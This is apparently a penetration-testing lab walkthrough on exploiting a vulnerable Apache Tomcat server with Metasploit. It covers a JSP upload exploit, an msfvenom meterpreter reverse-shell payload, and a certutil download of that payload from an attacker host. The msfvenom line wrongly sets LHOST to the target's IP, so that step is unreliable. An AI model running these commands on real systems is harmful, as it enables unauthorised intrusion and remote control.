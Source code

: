 # Exploiting A Vulnerable Apache Tomcat Web Server

* Apache Tomcat is a free and open source Java servlet web server.
* It is used to build and host dynamic websites and web applications based on the Java software platform.
* Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients.
* Apache Tomcat runs on TCP port 8080 by default.
* The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.
* The Apache Tomcat web server is primarily used to host dynamic websited or web applications developed in Java.
* Apache Tomcat V8.5.19 is vulnerable to a remote code exectution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server.
* We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.

## Practice Demo

Enumerate the target using the db\_nmap command

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

#### Exploiting the exploit module

* <mark style="color:yellow;">exploit/multi/http/tomcat\_jsp\_upload\_bypass</mark>

Set the required options

Set the payload accordingly

* <mark style="color:yellow;">set payload java/jsp\_shell\_bind\_tcp</mark>

Set the system shell to use:

* <mark style="color:yellow;">set SHELL cmd</mark>

<mark style="color:purple;">NOTE:</mark> This module might need to be ran several times before working

### Obtaining a meterpreter session through the existing shell session

#### Creating payload using msfvenom

* <mark style="color:yellow;">msfvenom  -p windows/meterpreter/reverse\_tcp LHOST=targetIP LPORT=Port -f exe > meterpreter.exe</mark>

Now we will upload this payload to the target machine and then run the payload to obtain a meterpreter session on the target.

For this we server a python server on our machine.

* <mark style="color:yellow;">python -m SimpleHTTPServer 80</mark>

Move to the existing session using:

* <mark style="color:yellow;">sessions 1</mark>

Download the payload from our attacker machine using:

* <mark style="color:yellow;">certutil -urlcache -f http://attackerIP/meterpreter.exe meterpreter.exe</mark>

Set the multi/handler to receive the connection back

Execute the payload on the target machine:

* <mark style="color:yellow;">.\meterpreter.exe</mark>
